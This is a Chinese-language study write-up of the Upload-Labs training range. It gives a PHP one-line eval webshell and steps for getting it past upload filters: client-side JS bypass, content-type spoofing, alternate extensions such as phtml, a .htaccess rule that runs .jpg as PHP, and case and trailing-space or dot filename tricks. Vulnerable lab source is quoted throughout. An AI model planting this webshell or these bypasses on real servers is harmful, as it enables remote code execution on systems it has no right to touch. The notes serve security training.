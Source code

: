 ### Upload-Lab



#### 一句话木马：

```php
<?php
@eval($_POST[123]);
?>
```



#### 1. 前端js绕过

本pass在客户端使用js对不合法图片进行检查！

**做法一：**一句话木马，改文件后缀为jpg，burp抓包恢复文件后缀为php，发包得到返回，蚁剑链接即可

![](E:\CSA\Web\Upload\pics\屏幕截图 2023-10-09 163614.png)

**做法2：**修改本地js文件

burp上传文件抓包抓不到证明是js本地判断，fn12设置禁用javascript之后即可



#### 2. content type绕过

```javascript
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

burp可以抓到包，文件合法性在后端进行

上传一个jpg文件，把content type删掉后报错，说明验证在这里进行

content type改为image/jpeg即可

![](E:\CSA\Web\Upload\pics\屏幕截图 2023-10-09 173558.png)

#### 3. 特殊后缀绕过（php3,php5）

![屏幕截图 2023-10-09 174108](E:\CSA\Web\Upload\pics\屏幕截图 2023-10-09 174108.png)

根据红字猜测是黑名单

```javascript
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空
//源码堵了其他绕过方式
        
        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

源码堵了其他绕过方式，没有堵php3，php5，php7，phtml

修改后缀为phtml尝试上传，成功

#### 4. .htaccess绕过

```
针对Apache的配置文件

.htaccess是分布式配置文件（可以有多个），一般用于URL重写，认证，访问控制等，优先级高，可覆盖Apache服务器的主要配置文件（非Apache服务器没该配置文件）。
httpd-conf包含Apache HTTP服务器全局行为和默认设置，优先级低

作用范围：
.htaccsess文件的作用范围更加局部，通常位于网站的根目录或特定目录，并且只影响该目录及其子目录。每个目录都可以有自己的.htaccess文件。httpd.config文件的作用范围更为全局，它是Apache主配置文件，影响整个服务器。

使用方式：
.htaccsess文件可以通过文本编辑器直接进行修改或创建，修改后会即时生效，无需重启Apache服务器。
httpd.conf文件通常需要管理员权限，修改后重启Apache服务器才能生效。

如果htaccess不生效，在服务器配置文件httpd.conf里更改根目录AllowOverride值为All
AllowOverride的值：
None：不允许.htaccess文件覆盖任何配置选项
All：允许.htaccess文件覆盖所有配置选项
AuthConfig：允许.htaccess文件覆盖身份验证相关的配置选项，如AuthType AuthName
FileInfo：允许.htaccess文件覆盖文件和目录相关的配置选项，如DirectoryIndex DefaultType
Indexes：允许.htaccess文件覆盖目录索引相关的配置选项，如Options IndexOptions
```

#### 

```
.user.ini
通常位于Web应用程序的根目录下，用于覆盖或追加全局配置文件(php.ini)
作用于存放该文件的目录及其子目录，优先级高
立即生效

php.ini
存储对整个php环境生效的配置选项，位于php安装目录
作用于所有该php环境的php请求，优先级低
重启服务器生效
```



.htaccess:

```
AddType application/x-httpd-php .jpg .txt
```

用php方式打开jpg和txt

先上传.htaccess再上传shell.jpg即可



#### 5. 大小写绕过

观察源码没有代码：

```
$file_ext = strtolower($file_ext);
```

确定可以使用大小写绕过，改文件名为shell.Php即可



#### 5. 点加空格加点绕过

burpsuite抓包改文件名称为shell.php. .上传即可



#### 6. 空格绕过

观察源码没有代码

```
$file_ext = trim($file_ext);
```

改文件名为shell. php即可

需要注意的是默认去除文件末尾的空格是只在windows环境下生效，linux环境的靶机不可以使用该方法

